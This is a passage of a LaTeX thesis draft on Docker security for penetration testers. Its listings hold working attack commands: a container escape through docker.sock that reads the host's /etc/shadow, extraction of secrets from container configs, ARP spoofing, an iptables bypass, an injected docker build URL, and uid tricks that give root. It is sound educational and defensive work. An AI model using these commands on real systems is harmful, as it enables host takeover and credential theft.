(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\subsubsection{Finding Sensitive information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e. \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g. passwords in the environment variables).

\hfill

Lets start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

\begin{lstlisting}[caption={Example extract secrets using the Docker API},captionpos=b]
(host)$ docker run --name database -e POSTGRES_PASSWORD=thisshouldbesecret -d postgres
...
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock:ro ubuntu:latest bash
(cont)# apt update
...
(cont)# apt install curl jq
...
(cont)# curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/database/json" | jq -r '.Config.Env'
[
  "POSTGRES_PASSWORD=thisshouldbesecret",
  ...
]
\end{lstlisting}

\subsubsection{Remote Access}
It is also possible to make the API listen on a TCP port. Ports 2375 and 2376 are usually used for HTTP and HTTPS communication, respectively. This, however, does bring all the extra complexity of TCP sockets with it. If not configured to only listen on \lstinline{localhost}, this gives every host on the network access to Docker (which might be desirable behavior). If the host is directly accessible by the internet, it gives everybody access to the full capabilities of Docker on the host. An attacker can exploit this by starting malicious containers\cite{Metasploit-Unprotected-TCP-Socket}.

\hfill

A malicious actor misused this feature in May 2019. He used Shodan\footnote{A search engine to search for systems connected to the internet.}\footnote{\url{https://www.shodan.io/}} to find unprotected publicly accessible Docker APIs and start containers that mine Monero\footnote{A cryptocurrency that focuses on privacy.} and find other hosts to infect\cite{zoolu2-bot-1807}\cite{zoolu2-bot-1809}\cite{zoolu2-bot-1853}.

\subsection{Readable Configuration Files}
Because setting up environments with Docker can be quite complex, many Docker users use programs to save all necessary Docker settings to configuration files (e.g. \lstinline{docker-compose}) to remove the need of repeating complex steps and configuration. These configuration files often contain very sensitive information. If the permissions on these files are configured badly, users that should not be able to read the files, might be able to read the files.

Too very common files that contain sensitive information are \lstinline{.docker/config.json} and \lstinline{docker-compose.yaml} files.

\subsubsection{\texorpdfstring{\lstinline{.docker/config.json}}{.docker/config.json}}
When pushing images to a registry, users need to login to the registry to authenticate themselves.
It would be quite annoying to login every time an user wants to push and image. That is why \lstinline{.docker/config.json} caches those credentials. These are stored in base64 encoding in the home directory of the user by default\footnote{\url{https://docs.docker.com/engine/reference/commandline/login/}}. An attacker with access to the file, can push malicious Docker images\cite{Docker-Credentials-Metasploit}.

\subsubsection{\texorpdfstring{\lstinline{docker-compose.yaml}}{docker-compose.yaml}}
\lstinline{docker-compose.yaml} files often contain secrets (e.g.\ passwords and API keys), because all information that should be passed to a container is saved in the \lstinline{docker-compose.yaml} file.

\subsection{ARP Spoofing}\label{subsection:arp-spoofing}
\todo[inline]{Capturing external traffic}
By default all Docker containers are added to the same bridge network. This means they are able to reach each other. By default Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers\footnote{IPv4 forwarding is enabled by default by Docker}\cite{Abusing-Containers}.

\hfill

Let's take a look at how this in a practical example. Let's say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

We first start three containers and install dependencies. We then start to poison the ARP table of \lstinline{victim0}. We can observe this by looking at the ARP table of \lstinline{victim0} (with the \lstinline{arp} command). We see that the entries for \lstinline{172.17.0.3} and \lstinline{172.17.0.4} are the same (\lstinline{02:42:ac:11:00:04}). If we then start pinging \lstinline{victim1} from \lstinline{victim0} and looking at the \lstinline{ICMP} traffic on \lstinline{attacker}, we see that the \lstinline{ICMP} packets are routed through \lstinline{attacker}.

\hfill

Disabling inter-container communication by default is covered in the Docker CIS Benchmark by guideline 2.1 (Ensure network traffic is restricted between containers on the default bridge).

\subsection{\texorpdfstring{\lstinline{iptables}}{iptables} Bypass}\label{subsection:iptables}
The Linux kernel has a built-in firewall, called \lstinline{Netfilter} which can be configured with a program called \lstinline{iptables}. This firewall consists of multiple chains of rules which are stored in tables. Each table has a different purpose. For example, there is a \lstinline{nat} table for address translation and a \lstinline{filter} table for traffic filtering (which is the default).
Each table has chains of ordered rules which also have a different purpose. For example, there are the \lstinline{OUTPUT} and \lstinline{INPUT} chains in the \lstinline{filter} table that are meant for all outgoing and incoming traffic, respectively.
It is possible to configure these rules using a program called \lstinline{iptables}. All Linux based firewalls (e.g. \lstinline{ufw}) use \lstinline{iptables} as their backend.

\hfill

When the Docker daemon is started, it sets up its own chains and rules to create isolated networks. The way it sets up its rules completely bypasses other in the firewall (because they are setup before the other rules) and by default the rules are quite permissive. This is by design, because the network stack of the host and the container are separate, including the firewall rules. It is, however, a bit counterintuitive, because we would assume that if a firewall rule is set on the host, it would apply to everything running on that host (including containers).

\hfill

We will look at the following simple example of bypassing a firewall rule with Docker.

\begin{lstlisting}[caption={Bypass \lstinline{iptables} firewall rules using Docker.},captionpos=b,label={listing:iptables-bypass}]
(host)# iptables -A OUTPUT -p tcp --dport 80 -j DROP
(host)# iptables -A FORWARD -p tcp --dport 80 -j DROP
(host)$ curl http://httpbin.org/get
curl: (7) Failed to connect to httpbin.org port 80: Connection timed out
(host)$ docker run -it --rm ubuntu /bin/bash
(cont)# apt update
...
(cont)# apt install curl
...
(cont)# curl http://httpbin.org/get
{
  "args": {},
  "headers": {
    "Accept": "*/*",
    "Host": "httpbin.org",
    "User-Agent": "curl/7.58.0"
  },
...
  "url": "https://httpbin.org/get"
}
\end{lstlisting}

In \autoref{listing:iptables-bypass} we first setup rules to drop all outgoing (including forwarded) traffic on port \lstinline{80} (the standard \lstinline{HTTP} port). Then, we try to request a webpage on the host. As expected, it does not work. If we then try to make the exact same request in a container, it works.

\hfill

The Docker CIS Benchmark does not cover this problem. It, however, does have guidelines that ensures this problem exists. Guideline 2.3 (Ensure Docker is allowed to make changes to iptables) recommends that the Docker daemon is allowed to change the firewall rules. Guideline 5.9 (Ensure that the host's network \lstinline{namespace} is not shared) recommends to not use the \lstinline{--network=host} argument, to make sure the container is put into a separate network stack. These are a good recommendations, because following them removes the need to configure a containerized network stack ourselves. However, it also isolates the firewall rules of the host from the containers.


\section{Security Related Software Bugs}\label{section:bugs}
\todo[inline]{Link vulnerabilities to scenarios}
\todo[inline]{Something about where to find the CVSS/likelyhood/impact score of each CVE}
\todo[inline]{In the end not very useful, this section is mostly for completeness}
In this section we will look at security related bugs that have been found in the last few years. Although there have been many vulnerabilities found in the Docker ecosystem, not all of them have a large impact. Others are not fully publicly disclosed. We will look some recent, fully disclosed vulnerabilities that might be of use during a penetration test. In the \hyperref[appendix:CVE-List]{appendix} you can find a list of all other Docker related vulnerabilities I have looked at.

\hfill

Because there are many security researchers looking for bugs in containerization software, this section will likely become quickly outdated after publishing and as such should not be used as an inclusive list of important vulnerabilities.

\hfill

All of the risk of these bugs can be prevented by using the latest version of Docker and Docker images. This is covered by CIS Docker Benchmark guidelines 1.1.2 (Ensure that the version of Docker is up to date) and 5.27 (Ensure that Docker commands always make use of the latest version of their image), respectively.

\subsection*{Common Vulnerabilities and Exposures}
\todo[inline]{Find a better place for this}
The Common Vulnerabilities and Exposures (CVE for short) system is a list of all publicly known security vulnerabilities. Every vulnerability that is found gets a CVE identifier, which looks like CVE--2019--0000. The first number represents the year in which the vulnerability is found. The second number is an arbitrary number that is at least four digits long. The system is maintained by the Mitre Corporation. Organizations that are allowed to give out new CVE identifiers are called CVE Numbering Authorities (CNA for short). It is possible to read and search the full list on Mitre's website\footnote{\url{https://cve.mitre.org/}}, the United State's National Vulnerability Database\footnote{\url{https://nvd.nist.gov/}} and other websites like CVEDetails\footnote{\url{https://www.cvedetails.com/}}.

The severity of a CVE is determined by the Common Vulnerability Scoring System (CVSS for short) score.

\subsection{CVE--2019--16884}
Because of a bug in runC (1.0.0-rc8 and older versions) it was possible to mount \lstinline{/proc} in a container. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to completely bypass AppArmor.

\hfill

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}.},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}

\subsection{CVE--2019--13139}\label{CVE-2019-13139}
Older versions than Docker 18.09.4, had a bug were \lstinline{docker build} incorrectly parsed URLs, which allows code execution~\cite{CVE-2019-13139-STAALDRAAD}. The string supplied to \lstinline{docker build} is split on ``:'' and ``\#'' to parse the Git reference. By supplying a malicious URL, it is possible to achieve code execution.

\medskip

For example, in the following \lstinline{docker build} command, the command ``\lstinline{echo attack}'' is executed.

\begin{lstlisting}[caption={\lstinline{docker build} command execution.},captionpos=b]
(host)$ docker build "git@github.com/meh/meh#--upload-pack=echo attack;#:"
\end{lstlisting}

\lstinline{docker build} executes \lstinline{git fetch} in the background. But with the malicious command \lstinline{git fetch --upload-pack=echo attack; git@github.com/meh/meh} is executed, which in turn executes \lstinline{echo attack}.

\subsection{CVE--2019--5736}\label{CVE-2019-5736}
A serious vulnerability was discovered in runC that allows containers to overwrite the runC binary on the host. Docker before version 18.09.2 is vulnerable. Whenever a Docker container is created or when \lstinline{docker exec} is used, a runC process is run. This runC process bootstraps the container. It creates all the necessary restrictions and then executes the process that needs to run in the container. The researches found that it is possible to make runC execute itself in the container, by telling the container to start \lstinline{/proc/self/exe} which during the bootstrap is symlinked to the runC binary~\cite{CVE-2019-5736-DragonSector}~\cite{CVE-2019-5736-Github}. \lstinline{/proc/self/exe} in the container will point to the runC binary on the host. The \lstinline{root} user in the container is then able to replace the runC host binary using that reference. The next time runC is executed (i.e.\ when a container is created or \lstinline{docker exec} is run), the overwritten binary is run instead. This, of course, is dangerous because it allows a malicious container to execute code on the host.

\subsection{CVE--2019--5021}\label{subsection:CVE-2019-5021}
The Docker image for Alpine Linux (one of the most used base images) had a problem where the password of the \lstinline{root} user in the container is left empty. In Linux it is possible to disable a password and to leave it blank. A disabled password cannot be used, but a blank password equals an empty string. This allows non-\lstinline{root} users to gain \lstinline{root} rights by supplying an empty string.

\hfill

It is still possible to use the vulnerable images (\lstinline{alpine:3.3}, \lstinline{alpine:3.4} and \lstinline{alpine:3.5}).
\begin{lstlisting}[caption={The Docker image of Alpine Linux 3.5 has an empty password.},captionpos=b]
(host)$ docker run -it --rm alpine:3.5 cat /etc/shadow
root:::0:::::
...
(host)$ docker run -it --rm alpine:3.5 sh
(cont)# apk add --no-cache linux-pam shadow
...
(cont)# adduser test
...
(cont)# su test
Password:
(cont)$ su root
(cont)#
\end{lstlisting}

\subsubsection*{Side note about the CVSS score of CVE--2019--5021}

This vulnerability has a CVSS score of 9.8 (and a 10 in CVSS 2)\footnote{\url{https://nvd.nist.gov/vuln/detail/CVE-2019-5021}} out of a maximum score of 10. Such a high CVSS score means that this is considered an extremely high-risk vulnerability. But in actuality, this vulnerability is only risky in very specific cases.

An empty \lstinline{root} password sounds very dangerous, but it really is not that dangerous in an isolated environment (e.g.\ a container) that runs as \lstinline{root} (inside the container) by default. This vulnerability will only be dangerous in very specific cases.

For example, if we create a Docker image based on \lstinline{alpine:3.5} that uses a non-\lstinline{root} user by default. If an attacker finds a way to execute code in the container, this vulnerability will allow them to escalate their privileges from the non-\lstinline{root} user to \lstinline{root}, but the attacker will still need to find a way to escape the container. Being able to execute code as \lstinline{root} will help them with escaping the container, but it does not guarantee it. This example shows that this vulnerability is dangerous, but only in a scenario where it is chained using other vulnerabilities.

\subsection{CVE--2018--15664}
A bug was found in Docker 18.06.1-ce-rc1 that allows processes in containers to read and write files on the host\cite{CVE-2018-15664-Openwall}\cite{CVE-2018-15664-Bugzilla}. There is enough time between the checking if a symlink is linked to a safe path (within the container) and the actual using of the symlink, that the symlink can be pointed to another file in the mean time. This allows a container to start by reading or writing a symlink to a arbitrary non-relevant file in the container, but actually read or write a file on the host.

\subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container.},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}

\subsection{CVE--2016--3697}

Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it --user 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}



    \chapter{Penetration Testing of Docker}\label{chapter:pentesting}
In \autoref{chapter:vulnerabilities-misconfigurations} we looked at specific attacker models, individual vulnerabilities and individual misconfigurations. In this chapter we will look at how we would use those during a penetration test. We will first look at how to use them manually. After that, we will look at how we can automate the manual steps.

\hfill

We will mostly focus on the misconfigurations, because although the vulnerabilities might have a high impact they are all mitigated with one line of advice: ``Keep your systems up to date''.

\section{Manual}
\todo[inline]{Which attack scenarios from 3 are relevant?}

\subsection{Attack Context Detection}
\todo[inline]{Detect running in a Docker}
\todo[inline]{Detect Docker (running) on host}
\todo[inline]{\href{https://github.com/rapid7/metasploit-framework/blob/master/modules/post/linux/gather/checkcontainer.rb}{Metasploit Linux Gather Container Detection}}

\subsection{Testing from Host}
\todo[inline]{What images are available on the host?}
\todo[inline]{systemctl cat docker}
\todo[inline]{/etc/default/docker}
\todo[inline]{daemon.json}
\todo[inline]{firewall rules}
\todo[inline]{docker binary setuid}
\todo[inline]{check if docker is installed}
\todo[inline]{check docker socket}
\todo[inline]{Which users are in the docker group}
\todo[inline]{Open ports to Docker socket?}
\todo[inline]{What containers are running}
\todo[inline]{Docker version, does not require docker permissions}

\subsection{Testing from Container}
\todo[inline]{\href{https://stackoverflow.com/questions/32144575/how-to-know-if-a-docker-container-is-running-in-privileged-mode}{How to know if a docker container is running in privileged mode}}
\todo[inline]{grep Cap /proc/1/status}
\todo[inline]{capsh --decode=00000000a80425fb}
\todo[inline]{Reachable containers}
\todo[inline]{ARP Spoofing other containers}
\todo[inline]{Privileged capability 0000003fffffffff}
\todo[inline]{find docker socket}
\todo[inline]{Identify host OS and container OS}
\todo[inline]{root in container}

\section{Automated}
\todo[inline]{\href{https://github.com/ProfessionallyEvil/harpoon}{harpoon}}
\todo[inline]{Source \href{https://www.zenko.io/blog/5-free-tools-to-navigate-through-docker-containers-security}{5-free-tools-to-navigate-through-docker-containers-security}}
\todo[inline]{Static analysis tool: \url{https://github.com/coreos/clair}}
\todo[inline]{Scanner for clair: \url{https://github.com/arminc/clair-scanner}}
\todo[inline]{Static vulnerability scanner (and clamAV) on software in container: \url{https://github.com/eliasgranderubio/dagda}}
\todo[inline]{\href{https://github.com/goodwithtech/dockle}{Dockle}}
\todo[inline]{Scanner using the CIS Docker Benchmark: \url{https://github.com/docker/docker-bench-security}}
\todo[inline]{SaaS container policy scanner: \url{https://anchore.com}}
\todo[inline]{Research: Twistlock}
\todo[inline]{Research: Sqreen}
\todo[inline]{sysdig: \url{https://sysdig.com/}}
\todo[inline]{sysdig: \url{https://sysdig.com/opensource/falco/}}

    \chapter{Future Work}
\section{Kubernetes}
\todo[inline]{Kubernetes Pod Escape Using Log Mounts: \url{https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts}}
\todo[inline]{Container Platform Security at Cruise: \url{https://medium.com/cruise/container-platform-security-7a3057a27663}}
\todo[inline]{\href{https://hub.packtpub.com/an-unpatched-security-issue-in-the-kubernetes-api-is-vulnerable-to-a-billion-laughs-attack/}{An unpatched security issue in the Kubernetes API is vulnerable to a ``billion laughs'' attack}}
\todo[inline]{\href{https://itnext.io/learn-about-the-basics-of-kubernetes-persistence-part-1-b1fa2847768f}{Basics of Kubernetes Volumes (Part 1)}}
\todo[inline]{\href{https://itnext.io/tutorial-basics-of-kubernetes-volumes-part-2-b2ea6f397402}{Basics of Kubernetes Volumes (Part 2)}}
\todo[inline]{What is the added value of virtualisation in comparison to containerization?}
\todo[inline]{\href{https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf}{NIST: Application Container Security Guide}}
\todo[inline]{\href{https://www.cisecurity.org/benchmark/kubernetes/}{CIS Benchmark Kubernetes}}
\todo[inline]{\href{https://stupefied-goodall-e282f7.netlify.com/contributors/design-proposals/auth/no-new-privs/}{No New Privs}}
\todo[inline]{\href{https://github.com/cyberark/KubiScan}{KubiScan}}
\todo[inline]{\href{https://neuvector.com/container-security/hack-kubernetes-container/}{How to Hack a Kubernetes Container, Then Detect and Prevent It}}
\todo[inline]{\href{http://blog.kubernetes.io/2016/08/security-best-practices-kubernetes-deployment.html}{Security Best Practices for Kubernetes Deployment}}

\section{Docker on Windows}

\section{Docker Swarm}

\section{Condense Docker CIS Benchmark}

The Docker CIS Benchmark contains 115 guidelines with their respective documentation.
This makes it a 250+ page document. This is not practical for developers and engineers (the intended audience). It would be much more useful to have a smaller, better sorted list that only contains common mistakes and pitfalls to watch out for.

\hfill

The CIS Benchmark do indicate the importance of each guideline.
With Level 1 indicating that the guideline is a must-have and Level 2 indicating that the guideline is only necessary if extra security is needed. However, only twenty-one guidelines are actually considered Level 2. All the other guidelines are considered Level 1. This still leaves the reader with a lot of guidelines that are considered must-have.

\hfill

It would be a good idea to split the document into multiple sections. The guidelines can be divided by their importance and usefulness. For example, a three section division can be made.

\hfill

The first section would describe obvious and basic guidelines that everyone should follow (and probably already does). This is an example of guidelines that would be part of this section:
\begin{itemize}
    \item 1.1.2: Ensure that the version of Docker is up to date
    \item 2.4: Ensure insecure registries are not used
    \item 3.1: Ensure that the docker.service file ownership is set to root:root
    \item 4.2: Ensure that containers use only trusted base images
    \item 4.3: Ensure that unnecessary packages are not installed in the container
\end{itemize}

\hfill

The second section would contain guidelines that are common mistakes and pitfalls. These guidelines would be the most useful to the average developer. For example:
\begin{itemize}
    \item 4.4 Ensure images are scanned and rebuilt to include security patches
    \item 4.7 Ensure update instructions are not use alone in the Dockerfile
    \item 4.9 Ensure that COPY is used instead of ADD in Dockerfiles
    \item 4.10 Ensure secrets are not stored in Dockerfiles
    \item 5.6 Ensure \lstinline{sshd} is not run within containers
\end{itemize}

\hfill

The last section would describe guidelines that are intended for systems that need extra hardening. For example:
\begin{itemize}
    \item 1.2.4 Ensure auditing is configured for Docker files and directories
    \item 4.1 Ensure that a user for the container has been created
    \item 5.4 Ensure that privileged containers are not used
    \item 5.26 Ensure that container health is checked at runtime
    \item 5.29 Ensure that Docker's default bridge ``\lstinline{docker0}'' is not used
\end{itemize}

    \chapter{Related Work}\label{chapter:relatedwork}
A lot has been written about Security and Docker. Most of it focuses on the defensive perspective, summarizing existing material or on very specific parts of the Docker ecosystem.

\medskip

In their 2018 paper, A. Martin et al.\ review and summarize the Docker ecosystem, its vulnerabilities and relevant literature\cite{Docker-Ecosystem-Vulnerability-Analysis}. 

A comparison of OS-level virtualization technologies (e.g.\ containers) is given in\cite{Security-OS-level-Virtualization}. 

An in-depth look at the security of the Linux features (e.g. \lstinline{namespaces}) is given in\cite{Analysis-Docker-Security}. 

A more flexible Docker image hardening technique using SELinux policies is proposed in\cite{DockerPolicyModules}. 

In\cite{Defense-Docker-Escape} Z. Jian and L. Chen look at a Linux \lstinline{namespace} escape and look at defenses to protect against such an escape. 

Memory denial of service attacks from the container to the host and possible protections against it are described in\cite{Securing-Docker-Containers-from-DOS}. 

A very quick overview of penetration testing of Docker environments is given in\cite{Research-Pentesting-Docker-Environment}. 

In\cite{Study-Vulnerabilities-Docker-Hub} the authors show the results of their publicly available Docker image scan. They have looked at 356218 images and have identified and analyzed vulnerabilities within them.

\cite{To-Docker-Not-To-Docker} looks at the security implications of practical use-cases of using a Docker environment. 

The National Computing Center (NCC) group has published multiple papers on the security of Docker, both from a defensive\cite{Understanding-and-Hardening-Linux-Containers} and offensive\cite{Abusing-Containers} perspective.

    \chapter{Conclusions}

\todo[inline]{Docker Security}
\todo[inline]{CIS Benchmarks}
\todo[inline]{Pentesting at Secura}

    \chapter*{Acknowledgements}
\addcontentsline{toc}{chapter}{Acknowledgements}
I would like to sincerely thank everybody that has helped me with writing and gave me feedback. Especially Erik Poll and Dave Wurtz. I would also like to thank Secura for allowing me to do this research, giving me a place to work, giving me access to the practical real-world knowledge of the employees and giving me a look at how the company works.


    \bibliographystyle{plain}
    \bibliography{content/bibliography}
    \todo[inline]{Either cite or remove Bibliography entries}
    \nocite{Docker-Ecosystem-Vulnerability-Analysis}
    \nocite{Analysis-Docker-Security}
    \nocite{Study-Vulnerabilities-Docker-Hub}
    \nocite{To-Docker-Not-To-Docker}

    \appendix
    \chapter{Example guideline from Docker CIS Benchmark}\label{appendix:CIS-Benchmark-Example}

\begin{figure}[ht]
    \centering
    
\includegraphics[page=135,width=.8\textwidth]{resources/images/cis_docker_benchmarks.pdf}
\end{figure}

\pagebreak

\begin{figure}[ht]
    \centering
    
\includegraphics[page=136,width=.8\textwidth]{resources/images/cis_docker_benchmarks.pdf}
\end{figure}


    \chapter{Interview Questions}\label{appendix:Interview-Questions}

\subsubsection{Penetration Testing}
\begin{itemize}
    \item What is the Penetration Testing methodology of Secura?
\end{itemize}

\subsubsection{Docker}
\begin{itemize}
    \item Do you know what Docker is?
    \item Have you ever encountered Docker during an assessment?
    \item Do you actively look for Docker in client networks?
    \item Have you ever reported an issue about Docker for a client?
    \item Do you think Docker makes applications/systems more secure?
\end{itemize}

\subsubsection{People to ask}
\begin{itemize}
    \item Ralph Moonen
    \item Edwin Slangen
    \item Dave Wurtz
    \item Ben Brücker
    \item Geert Smeets
    \item Pim Campers
\end{itemize}

    \chapter{}\label{appendix:c}

This appendix contains all vulnerabilities related to Docker and software Docker uses (e.g.\ runC) that I have looked at. It does not contain other exploits (e.g. Kernel exploits) that might also effect Docker. Some vulnerabilities are very old, significantly reducing their risk.

\section{Useful vulnerabilities}
The following high impact vulnerabilities have a known (proof of concept) exploit or instructions on how to reproduce the problem. Sources I found interesting are added.
\begin{itemize}
    \item CVE--2019--16884\cite{CVE-2019-16884-Github}
    \item CVE--2019--13139\cite{CVE-2019-13139-STAALDRAAD}
    \item CVE--2019--5736\cite{CVE-2019-5736-DragonSector}\cite{CVE-2019-5736-Github}\cite{CVE-2019-5736-Twistlock}
    \item CVE--2019--5021\cite{CVE-2019-5021-Talos}\cite{CVE-2019-5021-Alpine}
    \item CVE--2018--15664\cite{CVE-2018-15664-Openwall}\cite{CVE-2018-15664-Bugzilla}
    \item CVE--2018--10892\cite{CVE-2018-10892-Github}
    \item CVE--2018--9862\cite{CVE-2018-9862-Github}
    \item CVE--2016--3697\cite{CVE-2016-3697-Github}
    \item CVE--2015--3631\cite{CVE-2015-363-Seclists}
    \item CVE--2015--3630\cite{CVE-2015-363-Seclists}
\end{itemize}

\section{Less useful vulnerabilities}
I have also looked at the following vulnerabilities. These are not useful to this research for the reasons listed.

\hfill

Not enough information is publicly available about the following vulnerabilities:
\begin{multicols}{2}
    \begin{itemize}
        \item CVE--2019--1020014
        \item CVE--2019--14271
        \item CVE--2016--9962
        \item CVE--2016--8867
        \item CVE--2015--3629
        \item CVE--2015--3627
        \item CVE--2014--9357
        \item CVE--2014--6408
        \item CVE--2014--6407
        \item CVE--2014--3499
        \item CVE--2014--0047
    \end{itemize}
\end{multicols}


\hfill

These vulnerabilities are only relevant on Windows:
\begin{itemize}
    \item CVE--2019--15752
    \item CVE--2018--15514
\end{itemize}

\hfill

These vulnerabilities do not have enough impact to be useful:
\begin{itemize}
    \item CVE--2018--20699
    \item CVE--2018--12608
    \item CVE--2017--14992
    \item CVE--2015--1843
    \item CVE--2014--9358
    \item CVE--2014--5277
\end{itemize}

\hfill

And CVE--2019--13509 is only relevant on Docker Stack.

\end{document}
